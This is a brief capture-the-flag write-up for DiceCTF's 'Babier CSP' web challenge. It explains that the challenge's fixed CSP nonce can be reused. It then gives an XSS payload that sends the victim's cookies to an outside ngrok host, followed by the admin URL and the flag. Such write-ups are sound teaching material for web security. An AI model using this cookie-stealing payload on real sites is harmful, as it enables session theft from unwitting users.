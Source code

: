 Babier CSP
===
**Category**: Web

**Points**: 107 (349 solves)

**Author**: notdeghost
### Description
- ```Baby CSP was too hard for us, try Babier CSP.```
- Site: `babier-csp.dicec.tf`
- Source `index.js`

### Solution
- we need fake nonce because csp load script from nonce
### Payload 
```<script nonce=LRGWAXOY98Es0zz0QOVmag==>document.location="http://9127bf181722.ngrok.io/?a"+document.cookie;</script>```
### Get flag
`https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/`
### Flag
- `dice{web_1s_a_stat3_0f_grac3_857720}`
